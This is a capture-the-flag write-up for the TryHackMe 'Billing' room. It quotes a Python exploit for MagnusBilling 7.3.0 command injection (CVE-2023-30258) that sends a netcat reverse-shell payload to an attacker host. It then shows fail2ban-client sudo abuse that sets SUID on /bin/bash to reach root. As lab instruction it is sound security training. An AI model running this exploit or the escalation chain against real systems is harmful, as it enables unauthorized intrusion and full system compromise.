

# Billing

## **Challenge Information:**

**Link:** [https://tryhackme.com/room/billing](https://tryhackme.com/room/billing)

**Difficulty:** Easy

**Category:** 

**Description:**

- Name: Billing
- Info: Some mistakes can be costly.
- Note: Bruteforcing is out of scope for this room.

<details>
<summary> <h2> TLDR (Spoilers) </h2></summary>

A web app was identified to be `MagnusBilling` on port 80. An entry was found on `exploitdb` through which RCE via command injection was possible. A shell was obtained on the machine as `asterisk`. Entry in home directory `/home/magnus` was world readable and the user flag was obtained. `asterisk` had sudo perms on `fail2ban-client`. By editing the `actionban` and setting a SUID bit on `/bin/bash` when an IP is banned, root was obtained, thereby compromising the system. 

</details>

---

## Initial Reconnaissance

Nmap scan:

```bash
nmap -A -v <IP> -oN nmapresult.txt
```



3 open ports: `22, 80, 3306`. 

Website at port 80 has the title “Magnus Billing”. The site contains some javascript, but before checking that out I decided to look up the name on `exploit db`. 

Any vulnerability associated can be checked from “exploit-db.com” or by using its command line alternative through the “searchsploit” command.

```bash
searchsploit magnus

----------------------------------------------------------- ----------------------------
Exploit Title                                               |  Path
----------------------------------------------------------- ----------------------------
MagnusSolution magnusbilling 7.3.0 - Command Injection      | multiple/webapps/52170.txt
----------------------------------------------------------- ----------------------------
```

The version `7.3.0` suffers from RCE through command injection in the `/lib/icepay/icepay.php`  file which allows injection via the `democ` parameter. 

I looked it up and found PoC on github with a neat program written on python. 

Link: [https://github.com/0xmrsecurity/Public_Poc/tree/main/CVE-2023-30258](https://github.com/0xmrsecurity/Public_Poc/tree/main/CVE-2023-30258)

```python
#!/usr/bin/env python3
import requests
import argparse
import sys

# Author  SURAJ AKA 0xmrsecurity
# MagnusBilling RCE via Command Injection

parser = argparse.ArgumentParser(prog='Magnus-RCE')
parser.add_argument('--ip',    help="Target IP",required=True)
parser.add_argument('--rhost', help="Attacker C2 IP",required=True)
parser.add_argument('--rport', help="Attacker C2 Port",required=True)
args = parser.parse_args()

#target_ip = args.ip if args.ip.startswith('http') else f'http://{args.ip}'
target_ip = f"http://{args.ip}"
payload = f";rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc {args.rhost} {args.rport} >/tmp/f;"
target_url = f"{target_ip}/mbilling/lib/icepay/icepay.php"

try:
    requests.get(target_url, params={'democ': payload}, timeout=10)
except Exception as e:
    sys.exit(1)
```

Using the program I got a shell on the machine as `asterisk`. 

```
listening on [any] 4444 ...
connect to [<IP>] from (UNKNOWN) [10.49.157.53] 47904
sh: 0: can't access tty; job control turned off
$ id
uid=1001(asterisk) gid=1001(asterisk) groups=1001(asterisk)
$
```

## Shell as asterisk

The first thing I did was upgrade the shell from `sh` to `bash` via Python.

```bash
$ which python
$ which python3
/usr/bin/python3
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
asterisk@ip-10-49-157-53:/var/www/html/mbilling/lib/icepay$
```

Theres other users on the machine as well. So thats probably the next step before root. But their, home directories are world accessible. So I just went there and got the flag lol. 

```bash
ls -al /home
total 20
drwxr-xr-x  5 root     root     4096 May 10 01:24 .
drwxr-xr-x 19 root     root     4096 May 10 01:24 ..
drwxr-xr-x  3 debian   debian   4096 May 10 01:24 debian
drwxr-xr-x 15 magnus   magnus   4096 Sep  9  2024 magnus
drwxr-xr-x  2 ssm-user ssm-user 4096 May 28  2025 ssm-user
asterisk@ip-10-48-139-144:/var/lib/asterisk$ cd /home/magnus
cd /home/magnus
asterisk@ip-10-49-157-53:/home/magnus$ ls
ls
Desktop    Downloads  Pictures  Templates  user.txt
Documents  Music      Public    Videos
asterisk@ip-10-49-157-53:/home/magnus$ cat user.txt
cat user.txt
THM{REDACTED}
```

## Escalate to root

Doing `sudo -l` to check sudo perms on asterisk gives us a command that can be used as root and with no password. 

```bash
sudo -l
Matching Defaults entries for asterisk on ip-10-49-157-53:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on ip-10-49-157-53:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

`Fail2Ban` is a log monitoring Intrusion Prevention System, designed to prevent brute force attacks. It scans log files like `/var/log/auth.log` and bans any IP addresses making too many incorrect login attempts. This seems normal with the “brute forcing is out of scope” notice on TryHackMe. I ignored it initially, and started checking other vectors.

After no leads via other possible vectors like SUID, cron jobs or getcap, I came back to this and looked up if escalation was possible. I found a very detailed article talking about how escalation is indeed possible. 

Link: [https://juggernaut-sec.com/fail2ban-lpe/](https://juggernaut-sec.com/fail2ban-lpe/)

The article does give a proper workflow on how to escalate, but it seems too ideal. Like the `/etc/fail2ban/action.d` directory, and the files within, being group/ world writeable. In this room’s case, I dont have those permissions. 

```bash
drwxr-xr-x   2 root root 12288 May 28  2025 action.d 
```

But the article still helped me gather information about `fail2ban`. For instance, `/etc/fail2ban/jail.local` contains the “jails” that `fail2ban` is working on? I think its that since the mbilling login page from the website is here alongside other entries.

```bash
asterisk@ip-10-49-157-53:/etc/fail2ban$ cat jail.local
cat jail.local

[asterisk-iptables]
enabled  = true
filter   = asterisk
action   = iptables-allports[name=ASTERISK, port=all, protocol=all]
logpath  = /var/log/asterisk/messages
maxretry = 5
bantime = 600

[mbilling_login]
enabled  = true
filter   = mbilling_login
action   = iptables-allports[name=mbilling_login, port=all, protocol=all]
logpath  = /var/www/html/mbilling/protected/runtime/application.log
maxretry = 3
bantime = 300

[sshd]
enablem=true

[mbilling_ddos]
enabled  = true
filter   = mbilling_ddos
action   = iptables-allports[name=mbilling_ddos, port=all, protocol=all]
logpath  = /var/log/apache2/error.log
maxretry = 20
bantime = 3600
```

Even with thi info idk what the command does or the flags it takes, so I ran the `fail2ban-client --help` to learn more about whats possible. Even if manual editing via the directory is blocked, there could still be other ways. 

It gave a lot more commands, but amongst them I was drawn to the “set” commands since this allows me to change existing values. I could update the command to run my payload if I do a certain action. 

```bash
set <JAIL> action <ACT> actionstart <CMD>
                                             sets the start command <CMD> of
                                             the action <ACT> for <JAIL>
set <JAIL> action <ACT> actionstop <CMD> sets the stop command <CMD> of the
                                             action <ACT> for <JAIL>
set <JAIL> action <ACT> actioncheck <CMD>
                                             sets the check command <CMD> of
                                             the action <ACT> for <JAIL>
set <JAIL> action <ACT> actionban <CMD>  sets the ban command <CMD> of the
                                             action <ACT> for <JAIL>
set <JAIL> action <ACT> actionunban <CMD>
                                             sets the unban command <CMD> of
                                             the action <ACT> for <JAIL>
set <JAIL> action <ACT> timeout <TIMEOUT>
                                             sets <TIMEOUT> as the command
                                             timeout in seconds for the action
                                             <ACT> for <JAIL>
```

Theres multiple commands through which the payload could be updated, but the most obvious one seemed to be `actionban`. For that to trigger, I just need to ban an ip, which can be done by another command.

```bash
set <JAIL> banip <IP> ... <IP>           manually Ban <IP> for <JAIL>
```

The payload I decided to choose was `chmod +s /bin/bash` which adds a SUID bit to `/bin/bash`, allowing any user to run bash as root thereby getting a root shell. I chose the `mbilling_login` jail because why not. 

```
asterisk@ip-10-49-157-53:/etc/fail2ban$ sudo /usr/bin/fail2ban-client set mbilling_login action iptables-allports[name=mbilling_login, port=all, protocol=all] actionban 'chmod +s /bin/bash'
<t=all, protocol=all] actionban 'chmod +s /bin/bash'
2026-05-10 22:52:04,717 fail2ban                [2843]: ERROR   NOK: ('Invalid Action name: iptables-allports[name=mbilling_login,',)
'Invalid Action name: iptables-allports[name=mbilling_login,'
```

Ok I wrote the action wrong . I removed the [ ] part and it did not return an error. 

```
asterisk@ip-10-49-157-53:/etc/fail2ban$ sudo /usr/bin/fail2ban-client set mbilling_login action iptables-allports actionban 'chmod +s /bin/bash'
<on iptables-allports actionban 'chmod +s /bin/bash'
chmod +s /bin/bash
```

Now, if an IP is banned on `mbilling_logni`, the change should take place. With a little bit of abraca dabra, the `/bin/bash` binary now has SUID bit set. 

```
asterisk@ip-10-49-157-53:/etc/fail2ban$ ls -al /bin/bash
ls -al /bin/bash
-rwxr-xr-x 1 root root 1265648 Apr 18  2025 /bin/bash
asterisk@ip-10-49-157-53:/etc/fail2ban$ sudo /usr/bin/fail2ban-client set banip 127.0.0.1
<$ sudo /usr/bin/fail2ban-client set banip 127.0.0.1
2026-05-10 23:06:56,193 fail2ban                [3123]: ERROR   NOK: ("Invalid command '127.0.0.1' (no set action or not yet implemented)",)
Invalid command '127.0.0.1' (no set action or not yet implemented)
asterisk@ip-10-49-157-53:/etc/fail2ban$ sudo /usr/bin/fail2ban-client set mbilling_login banip 127.0.0.1
</fail2ban-client set mbilling_login banip 127.0.0.1
1
asterisk@ip-10-49-157-53:/etc/fail2ban$ ls -al /bin/bash
ls -al /bin/bash
-rwsr-sr-x 1 root root 1265648 Apr 18  2025 /bin/bash
```

Then I just spawned the root shell via `/bin/bash -p` and claimed the flag. 

```bash
asterisk@ip-10-49-157-53:/etc/fail2ban$ /bin/bash -p
/bin/bash -p
bash-5.2# id
id
uid=1001(asterisk) gid=1001(asterisk) euid=0(root) egid=0(root) groups=0(root),1001(asterisk)
bash-5.2# cd /root
cd /root
bash-5.2# ls
ls
filename  passwordMysql.log  root.txt
bash-5.2# cat root.txt
cat root.txt
THM{REDACTED}
```

Normally, bash drops privileges when a shell is invoked, dropping the effective user ID (euid) from root to the normal user id (uid) for safety reasons. `-p` bypasses that safety mechanism to run bash as the euid instead of uid. 

Seeing the `passwordMysql.log` made me remember that MariaDB was also open lol. Guess that was just a red herring to try and throw people off. Unlucky room author, I did not fall for it. 

## Exploitation Chain

| **Step** | **Action** | **Result** |
| --- | --- | --- |
| 1 | Nmap scan | Identified `Magnus Billing` on port 80 |
| 2 | Look up exploit on `exploitdb` | Command Injection possible |
| 3 | Send payload | Reverse shell as `asterisk`+ user flag |
| 4 | `sudo -l`  | `fail2ban-client` run as root |
| 5 | Edit command for `actionban` in the `mbilling_login` jail | Actual command replaced by malicious payload |
| 6 | Ban an IP via `ipban` | Payload execution; `/bin/bash` has SUID set |
| 7 | `/bin/bash -p` | Shell as root + root flag |
